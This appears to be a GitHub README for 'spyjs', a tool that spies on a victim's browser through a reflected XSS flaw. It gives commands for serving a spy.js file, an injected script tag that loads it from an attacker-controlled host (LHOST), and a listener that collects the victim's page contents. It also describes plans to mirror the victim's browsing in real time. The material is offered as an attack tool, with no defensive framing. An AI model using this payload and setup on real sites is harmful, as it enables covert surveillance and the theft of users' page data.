 # spyjs
Simple js sample to spy on browser, when reflacted xss found


Start server to serve js
```bash
python3 -m http.server 8080
```

Do on victim
```js
 <script src="http://LHOST:lport/spy.js"></script>
```

start listener
```bash
python3 listen.py 
```

# when triggered

![Screenshot](/imgs/callbk.png)

![Screenshot](/imgs/recv.png)

# Next version ?
For future version (may be) i would like to add little improvemnt and make it simulate victims web activity in real time mirrored, instade of receiving raw html
went to simulate it.






